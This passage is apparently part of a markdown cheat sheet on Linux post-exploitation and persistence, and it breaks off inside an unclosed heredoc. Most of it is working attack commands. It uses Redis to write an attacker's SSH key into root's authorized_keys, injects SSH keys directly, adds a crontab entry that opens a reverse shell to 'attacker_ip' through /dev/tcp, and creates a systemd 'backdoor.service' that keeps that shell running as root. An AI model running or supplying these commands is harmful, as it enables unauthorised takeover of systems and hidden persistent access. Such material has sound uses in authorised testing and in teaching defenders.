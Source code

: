 ### Service Exploitation
```bash
# Check for internal services
nmap -sT -O localhost
ss -tlnp | grep LISTEN

# Database connections
mysql -u root -p
psql -U postgres

# Redis exploitation
redis-cli
CONFIG GET dir
CONFIG SET dir /root/.ssh
CONFIG SET dbfilename authorized_keys
SET crackit "\n\nssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC..."
SAVE
```

---

## Persistence Mechanisms

### SSH Key Injection
```bash
# Generate SSH key pair
ssh-keygen -t rsa -f /tmp/key

# Add public key to authorized_keys
echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC..." >> /root/.ssh/authorized_keys
echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC..." >> /home/user/.ssh/authorized_keys

# Set proper permissions
chmod 600 /root/.ssh/authorized_keys
chmod 700 /root/.ssh
```

### Cron Job Backdoors
```bash
# Add malicious cron job
echo "* * * * * /bin/bash -c 'bash -i >& /dev/tcp/attacker_ip/port 0>&1'" >> /etc/crontab

# User-specific cron
crontab -e
# Add: * * * * * /path/to/backdoor
```

### Service Backdoors
```bash
# Create systemd service
cat > /etc/systemd/system/backdoor.service << 'EOF'
[Unit]
Description=System Backdoor
After=network.target

[Service]
Type=simple
User=root
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/attacker_ip/port 0>&1'
Restart=always

[Install]
WantedBy=multi-user.target
```